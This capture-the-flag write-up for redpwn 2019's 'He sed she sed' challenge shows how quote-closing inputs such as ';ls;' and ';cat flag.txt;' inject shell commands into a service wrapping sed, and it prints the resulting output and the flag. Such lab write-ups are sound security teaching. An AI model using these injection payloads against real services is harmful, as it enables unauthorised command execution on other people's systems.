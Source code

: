 # He sed she sed - Misc

### [~$ cd ..](../)

>he sed she sed
>
>Written by: dns
>
>I'm not really sure what I sed to this program, so it fixes it for me!
>
>nc chall2.2019.redpwn.net 6004

This challenge was a basic command injection based on the command `sed` (which might be really powerful, as long as one knows how to use it!)

The service asks 3 questions
* What you thought you sed
* What you aren't sure you sed
* What you actually sed

and waits for an input for each of them. Finally, based on this input, it displays the message *You actually said* with the output of the command. Injecting a simple quote gave the first indication that something went wrong:
```
What you thought you sed
'
What you aren't sure you sed
'
What you actually sed
'
You actually said
 | sed s///g
```

We can see here that it's a substitution because of the `s`. The syntax of such command is as follows:

`sed s/<regex>/<replace by>/<flags> <string>`

Here, the flag is `g`, meaning that the substitution is globally applied. We control the other values, but because of the messages returned by the server, we know that some simple quotes are not properly closed. By closing the quotes properly and use semi-colon, we can inject our own commands:

```
$ nc chall2.2019.redpwn.net 6004
 What you thought you sed
 ';ls;'
 What you aren't sure you sed

 What you actually sed

 You actually said

bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
sed.py
srv
sys
tmp
usr
var
sh: 1: : Permission denied
```

Let's then `cat` the flag:

```
$ nc chall2.2019.redpwn.net 6004
 What you thought you sed
 ';cat flag.txt;'
 What you aren't sure you sed

 What you actually sed

 You actually said

 flag{th4ts_wh4t_sh3_sed}
 sh: 1: : Permission denied
```

FLAG: **flag{th4ts_wh4t_sh3_sed}**

EOF
